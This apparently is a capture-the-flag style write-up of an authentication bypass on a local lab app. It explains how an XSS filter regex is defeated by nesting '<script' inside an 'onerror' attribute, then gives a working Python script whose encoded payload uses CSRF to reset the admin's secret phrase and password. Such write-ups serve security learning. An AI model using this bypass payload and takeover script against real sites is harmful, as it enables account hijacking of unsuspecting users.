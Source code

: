 # 1- Authentication Bypass

## 1.1 - XSS (Cross Site Scripting) chained with CSRF (Cross Site Request Forgery)

In `/api`, the q parameter is vulnerable against XSS :

<img width="525" alt="image" src="https://user-images.githubusercontent.com/76447395/165274658-7a08b203-4e87-4d0a-b4a0-7e2718f9e4a3.png">

But there is a filter we have to bypass, 

```js
const re = new RegExp(/(\b)(on\S+)(\s*)=|javascript:|(<\s*)(\/*)script|style(\s*)=|(<\s*)meta/ig);
function cleanStr(s) {
    return s.replaceAll(re, '');
}
```

The server is using Regular Expressions to match possible XSS payloads, and the match is replaced with an empty string. Let's see how the following payload is matched :

`<img src=x onerror=alert(1)>`
<img width="689" alt="image" src="https://user-images.githubusercontent.com/76447395/165275881-411bcffc-fa96-4f46-a719-14d144f1bc5b.png">

But this can be easily bypassed using the following payload :

`<img src=x o<scriptnerror=alert(1)>`

<img width="468" alt="image" src="https://user-images.githubusercontent.com/76447395/165277057-b48aa5a1-548d-4dd0-bd45-b0fd6d68e35f.png">

This is due to the fact that the RegEx matches `<script` and replaces it with an empty string and the final payload will be :

`<img src=x onerror=alert(1)>`

When we login as the admin we see this :

<img width="719" alt="image" src="https://user-images.githubusercontent.com/76447395/165279081-3148a416-c57b-4e89-9c15-2378aff3e807.png">

So we have to change the SecretPhrase and then the Password, in my case I built a script for this :

```py
import requests
passw = "tkt"
url = "http://172.17.0.2:5000/"
data = {"name": "test4", 
        "email": "test4@test.test", 
        "website": 
f"http://172.17.0.2:5000/api?q=%3Cimg+src%3Dx+o%3Cscriptnerror%3D%22fetch%28%27http%3A%2F%2F172.17.0.2%3A5000%2Fchange_secret_phrase%27%2C+%7Bmethod%3A+%27POST%27%2Cheaders%3A+%7B%27Content-Type%27%3A%27application%2Fx-www-form-urlencoded%27%7D%2Cbody%3A+%27secret_phrase%3Dbamba%26secret_phrase2%3Dbamba%27%7D%29%3Bfetch%28%27http%3A%2F%2F172.17.0.2%3A5000%2Fchange_password%27%2C+%7Bmethod%3A+%27POST%27%2Cheaders%3A+%7B%27Content-Type%27%3A%27application%2Fx-www-form-urlencoded%27%7D%2Cbody%3A+%27secret_phrase%3Dbamba%26password%3D{passw}%26password2%3D{passw}%27%7D%29%3B%22%3E", 
        "secret_phrase": "foo", 
        "password": "foo",
        "password2": "foo"}

requests.post(url+"apply", data=data)
```
